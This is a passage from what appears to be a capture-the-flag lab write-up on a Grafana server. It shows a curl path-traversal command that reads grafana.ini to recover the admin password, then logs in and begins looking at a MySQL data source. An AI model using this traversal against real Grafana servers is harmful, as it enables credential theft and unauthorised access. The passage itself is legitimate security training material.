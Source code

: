 The “Security” section has a bunch of stuff that’s commented out with `;`, but the `admin_password` is not:

```

#################################### Security ####################################
[security]
# disable creation of admin user on first start of grafana
;disable_initial_admin_creation = false             

# default admin user, created on startup
;admin_user = admin             

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
                                                    
# used for signing                               
;secret_key = SW2YcwTIb9zpOOhoPsMm

```

Another way to look at this is to use `grep` to remove anything that starts with `#` (comment), `;` (comment), or `[` (start of section).

```

oxdf@hacky$ curl --path-as-is -s http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/grafana/grafana.ini | grep -v "^[#;\[]" | grep .
admin_password = messageInABottle685427

```

What’s left is just the password, meaning it’s the only non-default line in the config.

#### Log In

With that default admin password, I can log into Grafana as the admin user:

[![image-20220913105217755](https://0xdfimages.gitlab.io/img/image-20220913105217755.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220913105217755.png)

### Database Access

#### Enumerate Grafana

Looking around in the Settings, there is a data source listed:

[![image-20220913111226411](https://0xdfimages.gitlab.io/img/image-20220913111226411.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220913111226411.png)

Clicking on it, it’s named `mysql.yaml`, and defines a MySQL connection:

[![image-20220913111412334](https://0xdfimages.gitlab.io/img/image-20220913111412334.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220913111412334.png)

It says this is added by a config file and can’t be modified in the UI.
